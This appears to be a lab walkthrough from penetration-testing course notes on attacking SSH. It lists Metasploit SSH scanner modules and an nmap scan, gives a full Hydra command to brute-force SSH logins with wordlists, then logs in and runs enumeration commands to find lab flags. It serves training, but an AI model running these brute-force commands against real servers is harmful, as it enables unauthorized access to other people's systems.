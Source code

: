 # 3 - Exploiting SSH

### **Exploiting SSH**

* SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.
* It is typically used for remote access to servers and systems.
* SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
* SSH authentication can be configured in two ways:
  * Username & password authentication
  * Key based authentication
* In the case of username and password authentication, we can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.

## **Practical Demonstration**

1 - Identify Target IP.

{% code overflow="wrap" lineNumbers="true" %}
```bash
auxiliary/scanner/ssh/ssh_version
auxiliary/scanner/ssh/ssh_login
```
{% endcode %}

2 - `nmap -sV $ip` - nmap scan.

3 `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt -t 4 $ip ssh` - performing a bruteforce to obtain login creds.

When you terminate the bruteforce session, you can always resume the session with `hydra -R` .

4 - \`ssh sysadmin@$ip - Connect to the target system via SSH with legitimate credentials.

> we can issue some cmds to enumerate, `whoami` , `groups sysadmin` - show the groups the user is part of. `cat /etc/*issue` - OS version, `uname -r` - kernel version.

FInd The flags associated with this Lab.

